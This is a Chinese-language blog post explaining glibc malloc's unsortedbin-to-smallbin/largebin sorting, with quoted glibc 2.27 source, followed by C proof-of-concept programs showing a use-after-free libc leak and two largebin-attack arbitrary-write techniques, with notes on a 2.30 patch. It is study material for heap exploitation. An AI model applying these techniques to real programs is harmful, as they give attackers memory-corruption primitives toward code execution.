






这篇记录下和 unsortedbin 相关的内容。未排序其实就是未归类，其他 bin 都是有固定大小或范围的，归类到对应 bin 上就相当于按大小排序了。 

之前在 [glibc malloc/free 源码分析](../glibc_malloc_free_source_analysis/) 中比较详细地分析过内存分配、释放的过程，malloc 按 exact-fit 优先原则进行分配，即优先找已有的相同大小 chunk，否则归类 unsortedbin 中的 chunk，同时再进行 exact-fit 匹配找到最合适的，归类后扔没有大小正好合适的就对稍大的 chunk 切割，切割后的 chunk 会被再次放到 unsortedbin 上。

如果有 tcache，在归类过程中精确匹配到的 chunk 先存储到 tcache 里，到达阀值之后立即返回 chunk，如果没有 tcache 就立即返回 chunk。没有精确匹配的 chunk 会被分类到对应的 bin 上。

排除 tcache 的影响，unsorted chunk 只会被归类到 smallbin 或 larginbin 上，这块代码不多，直接贴代码看。

## 归类过程

这里贴的 2.27 版本代码。

### small chunk 归类过程

```cpp
while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
{
    // ... (omitted)
    
    /* remove from unsorted list */
    unsorted_chunks (av)->bk = bck;
    bck->fd = unsorted_chunks (av);
    
    // ... (omitted)
    if (in_smallbin_range (size))
    {
      victim_index = smallbin_index (size);
      bck = bin_at (av, victim_index);
      fwd = bck->fd;
    }
    else
    {
        // ... large chunk (omitted)
    }
    
    mark_bin (av, victim_index);
    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;
    
    // ... (omitted)
    
#define MAX_ITERS       10000
  	if (++iters >= MAX_ITERS)
    	break;
}
    

```

没有什么特殊的，就是将 victim 链到 smallbin 上。

### large chunk 归类过程

```cpp
while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
{
    // ... (omitted)

    /* remove from unsorted list */
    unsorted_chunks (av)->bk = bck;
    bck->fd = unsorted_chunks (av);

    // ... (omitted)
    if (in_smallbin_range (size))
    {
        // ... (omitted)
    }
    else
    {
        victim_index = largebin_index (size);
        bck = bin_at (av, victim_index);
        fwd = bck->fd;

        /* maintain large bins in sorted order */
        if (fwd != bck)
        {
            /* Or with inuse bit to speed comparisons */
            size |= PREV_INUSE;
            /* if smaller than smallest, bypass loop below */
            assert (chunk_main_arena (bck->bk));
            if ((unsigned long) (size)
                < (unsigned long) chunksize_nomask (bck->bk))
            {
                fwd = bck;
                bck = bck->bk;

                victim->fd_nextsize = fwd->fd;
                victim->bk_nextsize = fwd->fd->bk_nextsize;
                fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
            }
            else
            {
                assert (chunk_main_arena (fwd));
                while ((unsigned long) size < chunksize_nomask (fwd))
                {
                    fwd = fwd->fd_nextsize;
                    assert (chunk_main_arena (fwd));
                }

                if ((unsigned long) size
                    == (unsigned long) chunksize_nomask (fwd))
                    /* Always insert in the second position.  */
                    fwd = fwd->fd;
                else
                {
                    victim->fd_nextsize = fwd;
                    victim->bk_nextsize = fwd->bk_nextsize;
                    fwd->bk_nextsize = victim;
                    victim->bk_nextsize->fd_nextsize = victim;
                }
                bck = fwd->bk;
            }
        }
        else
            victim->fd_nextsize = victim->bk_nextsize = victim;
    }

    mark_bin (av, victim_index);
    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;

    // ... (omitted)

    #define MAX_ITERS       10000
    if (++iters >= MAX_ITERS)
        break;
}
```

largebin 中的 chunk 都是已经按大小排好序的，`fd` 方向是大到小，`bk` 方向是小到大。large chunk 用到了 `fd_nextsize` 和 `bk_nextsize`，这两个指针是用来跳表用的，通过这两个指针可以快速跳过相同大小的 chunk 到达下一个大小的 chunk 位置。

largebin 头的 `bk` 指向的 chunk 是当前链表中最小的 chunk，如果需要插入的 chunk 大小比最小的还小，直接插入到 `bin` 和 `bin->bk` 中间。否则延 `fd_nextsize` 方向进行跳表遍历，即从大到小，找到合适的位置插入。

## 攻击利用

以 libc 2.27 版本为利用基础，新版本在后面分析。

### UAF 泄漏 libc

由于 bin 的结构：



bin 链表的头尾都是指向 `main_arena.bins[i]` 。`main_arena` 被静态存储在 libc 内存的 `.data` 段，所以如果存在 UAF，free 后打印头节点的 `bk` 或尾节点的 `fd` 即可得到 `main_arena` 地址，通过相对偏移即可计算出 libc 地址：

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    // Allocate a large chunk to avoid tcache interference.
    char *p1 = (char *)malloc(0x430);
    printf("p1 chunk address: %p\n", p1-0x10);
    // Avoid to consolidating the large chunk p1 with the other chunk during the free().
    malloc(0x90);
    asm("int3");
    // Free p1 chunk to unsortedbin
    free(p1);

    // fd/bk -> main_arena.bins[1]
    printf("&main_arena.bins[1] ==> %p\n", *((char **)p1));
}
```

这个代码中 `p1` 内存被释放后重用得到了 `main_arena.bins[1]` 地址：



### UAF 任意地址写

这种方式的利用点是 malloc 触发的 unsorted large chunk 归类过程，只有 large chunk 才可以，需要利用 chunk 插入时的 `bk_nextsize` 和 `fd_nextsize` 指向修正。有两种利用方式：

1. 在 unsorted chunk 大小比最小的 chunk 小时，会执行：

    ```cpp
    bck = fwd->bck

    victim->fd_nextsize = fwd->fd;
    victim->bk_nextsize = fwd->fd->bk_nextsize;
    fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;

    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;
    ```

    可使 `fwd->fd->bk_nextsize = fwd->fd->bk_nextsize->fd_nextsize = victim`、`fwd->bck->fd = victim`。这种情况 `fwd` 不可控，它永远指向 `main_arena.bin[1]`，所以只能是 `fwd->fd` 可控，即最大的 large chunk 可控时可实现将 unsorted chunk 地址写入 `fwd->fd->bk_nextsize + 0x20`。

2. 在 unsorted chunk 大小比最小的 chunk 大时，会执行：

    ```cpp
    bck = fwd->bck
    
    victim->fd_nextsize = fwd;
    victim->bk_nextsize = fwd->bk_nextsize;
    fwd->bk_nextsize = victim;
    victim->bk_nextsize->fd_nextsize = victim;
    
    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;
    ```

    可使 `fwd->fd->bk_nextsize = fwd->fd->bk_nextsize->fd_nextsize = victim`、`fwd->bck->fd = victim`。这种情况 `fwd` 指向前一个 large chunk，如果它可控即可实现将 unsorted chunk 地址写入 `fwd->bk_nextsize + 0x20` 和 `fwd->bck + 0x10`。

#### 利用1

然后我们来测试一下，先制造一下第 1 种情况：

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    unsigned long stack_var1 = 0;
    printf("&stack_var1 = %p\n", &stack_var1);
    printf("stack_var1 = %d\n", stack_var1);

    printf("Pre-call printf to avoid any subsequent impact on the layout of the chunk.\n\n");

    // Allocate a large chunk p1, we connot use small chunk due to the influence of tcache.
    char *p1 = (char *)malloc(0x420);
    printf("p1 chunk address:\t\t%p\n", p1 - 0x10);
    // Avoid to consolidating the p1 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a large chunk p2 to avoid tcache interference.
    char *p2 = (char *)malloc(0x460);
    printf("p2 chunk address:\t\t%p\n", p2 - 0x10);
    // Avoid to consolidating the p2 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a chunk p3 with a size smaller than p2 chunk.
    // The objective is to generate an unsorted chunk whose size is smaller than the other chunks present in the largebin.
    char *p3 = (char *)malloc(0x440);
    printf("p3 chunk address:\t\t%p\n\n", p3 - 0x10);
    // Avoid to consolidating the p3 chunk with the other chunk during the free().
    malloc(0x20);

    // Free p1 and p2 chunk to unsortedbin
    // asm("int3");
    printf("Free p1 and p2 chunk to unsortedbin.\n");
    free(p1);
    free(p2);

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:
    //      1. Use p1 to avoid splitting the p2 chunk. The remaining part after the 
    //          split will be placed back into the unsorted bin.
    //      2. to move p2 chunk to largebin
    printf("Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:\n\t1. Use p1 to avoid splitting the p2 chunk. The remaining part after the \n\t\tsplit will be placed back into the unsorted bin.\n\t2. to move p2 chunk to largebin\n");
    char * partOfP1 = (char *)malloc(0x20);
    printf("\tpartOfP1:\t\t\t%p\n", partOfP1 - 0x10);
    printf("\tpartOfP1 == p1:\t\t\t%s\n", partOfP1 == p1 ? "true" : "false");

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    // Free p3 chunk to unsortedbin
    printf("Free p3 chunk to unsortedbin.\n");
    free(p3);
    printf("\tp3 chunk link: \t\t\t[%p <==> %p(p3) <==> %p]\n", *((char **)(p3 + 0x8)), p3 - 0x10, *((char **)(p3)));
    printf("\tp3 chunk nextsize link:\t\t[%p <==> %p(p3) <==> %p]\n\n", *((char **)(p3 + 0x18)), p3 - 0x10, *((char **)(p3 + 0x10)));

    // asm("int3");

    // Change the bk_nextsize of the largest chunk p2 to (&stack_var1 - 0x20).
    printf("Change the bk_nextsize of the largest chunk p2 to (&stack_var1 - 0x20).\n");
    *(unsigned long *)(p2 + 0x18) = (unsigned long)&stack_var1 - 0x20;
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    printf("Call malloc to move p3 to large bin, make *(p2->bk_nextsize + 0x20) == stack_var1 == p3\n");
    malloc(0x20);
    printf("\tstack_var1 = %p\n", (char *)stack_var1);
    // asm("int3");
    exit(0);
}
```

使用 glibc 版本为 2.27，运行结果如下：



这个示例中布局了 3 个 chunk：

- `p1` 是给中间用于避免 chunk 合并的 `malloc` 调用时分隔用的
- `p2` 后面被作为 largebin 中最小的 chunk，UAF 的原因使之可控，即 `fwd->fd` 可控
- `p3` 后面被放到 unsortedbin，在下次 `malloc` 调用时将被合并到和 `p2` 相同的 largebin，且满足 unsorted chunk 大小比 largebin 中最小的 chunk 小

当使用 UAF 修改 `p2->bk_nextsize` 为 `&stack_var1 - 0x20` 后，调用 `malloc` 触发 unsortedbin 分类将 unsorted `p3` 地址写入 `fwd->fd->bk_nextsize + 0x20`，`stack_var1` 的值最终被改为 `p3` 的地址。

需要注意 `p2` 和 `p3` 的大小要在同一个 largebin 范围内，且 `p3` 要比 `p2` 小。

试了下新版本 (2.39-0ubuntu8.3) 也可以用。

#### 利用2

对之前的代码稍做修改后，便成了第 2 种情况：

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;
    printf("&stack_var1 = %p\n", &stack_var1);
    printf("&stack_var2 = %p\n", &stack_var2);
    printf("stack_var1 = %d\n", stack_var1);
    printf("stack_var2 = %d\n", stack_var2);

    printf("Pre-call printf to avoid any subsequent impact on the layout of the chunk.\n\n");

    // Allocate a large chunk p1, we connot use small chunk due to the influence of tcache.
    char *p1 = (char *)malloc(0x420);
    printf("p1 chunk address:\t\t%p\n", p1 - 0x10);
    // Avoid to consolidating the p1 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a large chunk p2 to avoid tcache interference.
    char *p2 = (char *)malloc(0x440);
    printf("p2 chunk address:\t\t%p\n", p2 - 0x10);
    // Avoid to consolidating the p2 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a chunk p3 with a size larger than p2 chunk.
    // The objective is to generate an unsorted chunk whose size is larger than the other chunks present in the largebin.
    char *p3 = (char *)malloc(0x460);
    printf("p3 chunk address:\t\t%p\n\n", p3 - 0x10);
    // Avoid to consolidating the p3 chunk with the other chunk during the free().
    malloc(0x20);

    // Free p1 and p2 chunk to unsortedbin
    // asm("int3");
    printf("Free p1 and p2 chunk to unsortedbin.\n");
    free(p1);
    free(p2);

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:
    //      1. Use p1 to avoid splitting the p2 chunk. The remaining part after the 
    //          split will be placed back into the unsorted bin.
    //      2. to move p2 chunk to largebin
    printf("Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:\n\t1. Use p1 to avoid splitting the p2 chunk. The remaining part after the \n\t\tsplit will be placed back into the unsorted bin.\n\t2. to move p2 chunk to largebin\n");
    char * partOfP1 = (char *)malloc(0x20);
    printf("\tpartOfP1:\t\t\t%p\n", partOfP1 - 0x10);
    printf("\tpartOfP1 == p1:\t\t\t%s\n", partOfP1 == p1 ? "true" : "false");

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    // Free p3 chunk to unsortedbin
    printf("Free p3 chunk to unsortedbin.\n");
    free(p3);
    printf("\tp3 chunk link: \t\t\t[%p <==> %p(p3) <==> %p]\n", *((char **)(p3 + 0x8)), p3 - 0x10, *((char **)(p3)));
    printf("\tp3 chunk nextsize link:\t\t[%p <==> %p(p3) <==> %p]\n\n", *((char **)(p3 + 0x18)), p3 - 0x10, *((char **)(p3 + 0x10)));

    // asm("int3");

    // Change the bk_nextsize of the large chunk p2 to (&stack_var1 - 0x20).
    printf("Change the bk_nextsize of the large chunk p2 to (&stack_var1 - 0x20).\n");
    *(unsigned long *)(p2 + 0x18) = (unsigned long)&stack_var1 - 0x20;
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));
    printf("Change the bk of the large chunk p2 to (&stack_var1 - 0x10).\n");
    *(unsigned long *)(p2 + 0x8) = (unsigned long)&stack_var2 - 0x10;
    printf("\tp2 chunk link: \t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));

    // asm("int3");

    printf("Call malloc to move p3 to large bin, make *(p2->bk_nextsize + 0x20) == stack_var1 == p3 and *(p2->bk + 0x10) == stack_var2 == p3\n");
    malloc(0x20);
    printf("\tstack_var1 = %p\n", (char *)stack_var1);
    printf("\tstack_var2 = %p\n", (char *)stack_var2);
    // asm("int3");

    exit(0);
}
```

这里要注意的是 `p3` 的大小比 `p2` 大，属于第 2 种利用方式，可以同时修改两个指针为 `p3` 地址：



如果改用新版本 (2.39)，这种方式会失败：



因为在 2.30 版本 [5b06f53](https://github.com/bminor/glibc/commit/5b06f538c5aee0389ed034f60d90a8884d6d54de) commit 中添加了个 `bk_nextsize` 和 `bk` 的校验：



所以这种方式在 2.30 之后失效，只能用第 1 种方式。使用不同 glibc 版本的编译程序可以简单参考一下 [glibc_all_in_one](../glibc_all_in_one/) 。
